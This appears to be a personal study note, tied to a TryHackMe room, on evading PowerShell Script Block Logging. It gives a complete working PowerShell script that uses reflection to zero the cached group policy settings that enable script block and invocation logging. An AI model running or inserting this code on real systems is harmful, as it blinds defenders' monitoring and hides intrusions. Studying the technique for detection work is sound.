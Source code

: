 # ETW Evasion Group Policy Takeover

- Enabled from Group Policy:
	- `Search -> Run -> gpedit.msc
	- `Administrative Templates -> Windows Components -> Windows PowerShell`. 
	- `Turn on PowerShell Script Block Logging`

[[Windows-Events-To-Monitor]]:

|**Event ID**|**Purpose**|
|---|---|
|4103|Logs command invocation|
|4104|Logs script block execution|


Group Policy Takeover
1. Obtain group policy settings from the utility cache - type of `System.Management.Automation.Utils` and identify the GPO cache field: `cachedGroupPolicySettings`
```powershell
$GroupPolicySettingsField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static')
$GroupPolicySettings = $GroupPolicySettingsField.GetValue($null)
```
2. Modify generic provider to `0`.  In this case `EnableScriptBlockLogging` for takeover of Script Block Logging
```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```
3. Modify the invocation or module definition   In this case `EnableScriptBlockInvocationLogging` for takeover of Script Block Logging
```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

Full script:
```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
  If ($GroupPolicyField) {
      $GroupPolicyCache = $GroupPolicyField.GetValue($null);
      If ($GroupPolicyCache['ScriptBlockLogging']) {
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
          $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
      }
      $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
      $val.Add('EnableScriptBlockLogging', 0);
      $val.Add('EnableScriptBlockInvocationLogging', 0);
      $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
  };
```

## References

[THM Evading Logging and Monitoring Room](https://tryhackme.com/room/monitoringevasion)
[Microsoft DevBlogs - Use PowerShell to Find ETW Providers](https://devblogs.microsoft.com/scripting/powertip-use-powershell-to-find-etw-providers/)
[Microsoft Documentation - PowerShell Logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.3)
[Medime - Ammad Ali - PowerShell Logging: Module Logging vs Script Block Logging](https://medium.com/@ammadb/powershell-logging-module-logging-vs-script-block-logging-7aa74bf66261)